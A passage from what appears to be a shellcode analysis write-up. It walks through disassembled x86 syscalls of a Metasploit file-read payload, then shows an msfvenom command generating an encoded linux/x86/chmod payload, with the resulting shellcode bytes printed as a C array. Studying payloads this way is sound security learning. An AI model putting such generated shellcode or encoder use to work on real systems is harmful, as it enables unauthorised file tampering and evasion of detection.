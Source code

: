 Now that the file has been opened we can perform a read of the contents into a 4096 byte buffer.  The "open" system call returned to us a file descriptor (3) that we can now use for reading. The "read" system call is defined as:

```c
ssize_t read(int fd, void *buf, size_t count);
```

The resulting content that was read will be pointed to by ECX.
```
0x00402067 <+39>:	mov    ebx,eax              ; ebx = 3
0x00402069 <+41>:	mov    eax,0x3              ; eax = 3 (already was)
0x0040206e <+46>:	mov    edi,esp              ; edi = pointer to stack
0x00402070 <+48>:	mov    ecx,edi              ; ecx = pointer to stack
0x00402072 <+50>:	mov    edx,0x1000           ; edx = 4096
0x00402077 <+55>:	int    0x80                 ; #define __NR_read 3
```

Now that the content is stored in our buffer it will be written to the stdcout pre-defined file descriptor (1). The "write" system call is defined as:

```c
ssize_t write(int fd, const void *buf, size_t count);
```

At this point it is a matter of writing the buffer pointed to by ECX to STDOUT which will show the content on the console.
```
0x00402079 <+57>:	mov    edx,eax              ; edx = read return value
0x0040207b <+59>:	mov    eax,0x4              ; eax = 4 // write
0x00402080 <+64>:	mov    ebx,0x1              ; ebx = 1 // STDOUT
0x00402085 <+69>:	int    0x80	                ; #define __NR_write 4
```

<a name="sample3"></a>
## Sample3: linux/x86/chmod
To generate a payload with the linux/x86/chmod payload I executed the following command to generate shellcode that could be placed into my test C program.
```
[sengen@manjaro-x86 sample3]$ msfvenom -p linux/x86/chmod file=/tmp/test.txt mode=0755 -b '\x00' -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 65 (iteration=0)
x86/shikata_ga_nai chosen with final size 65
Payload size: 65 bytes
Final size of c file: 299 bytes
unsigned char buf[] = 
"\xbd\x58\xd7\xe5\xe6\xd9\xed\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x0a\x31\x68\x14\x83\xe8\xfc\x03\x68\x10\xba\x22\x7c\x8c\x35"
"\x95\x2d\xb9\x47\x25\xd2\x39\x78\x51\xbf\x49\xa9\xed\x5a\xd9"
"\xc1\x23\xd1\x65\x5d\x3c\x42\xfe\x70\x3d\x74\xfe\xd3\xf3\xf4"
"\x94\xe2\x53\x38\xe8";
```
